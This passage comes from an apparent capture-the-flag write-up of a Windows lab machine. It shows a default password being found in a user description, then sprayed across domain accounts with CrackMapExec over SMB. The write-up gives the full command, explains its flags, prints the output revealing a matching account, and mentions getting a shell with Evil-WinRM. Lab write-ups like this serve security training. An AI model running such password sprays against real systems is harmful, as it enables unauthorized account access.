 In Marko Users Description, i found the default password for the **marko** user. 

<img  alt="Pasted image 20240729035250" src="https://github.com/user-attachments/assets/accfc1cd-551f-482d-aa19-7e4ee88d96d9">

## Password Spraying

Password spraying is **a cyberattack tactic that involves a hacker using a single password to try and break into multiple target accounts**. It's a type of brute-force attack. Password spraying is an effective tactic because it's relatively simple to carry out, and users often have easy-to-guess passwords.

Now we have an valid password, let's try to spray it on all the users to find out if any of the user have this password. We will be using tool called CrackmapExec an command line tool.

```bash
$ cme smb 10.129.23.166 -u users1.txt -p 'Welcome123!' -d megabank.local --continue-on-success
```

- **smb** to define protocol
- **-u** to define user
- **-p** to define Password
- **-d** for domain
- **--continue-on-success** to continues authentication attempts even after successes 

```bash
SMB         10.129.23.166   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.23.166   445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.23.166   445    RESOLUTE         [-] 
.
.
snipped
.
.
megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.23.166   445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
SMB         10.129.23.166   445    RESOLUTE         [-] megabank.local\administrator:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.23.166   445    RESOLUTE         [-] 
.
.
snipped
.
.
megabank.local\zach:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.23.166   445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.23.166   445    RESOLUTE         [-] megabank.local\resolute:Welcome123! STATUS_LOGON_FAILURE
```

**Melanie** have the default password set. Let's get shell into it using Evil-Winrm.
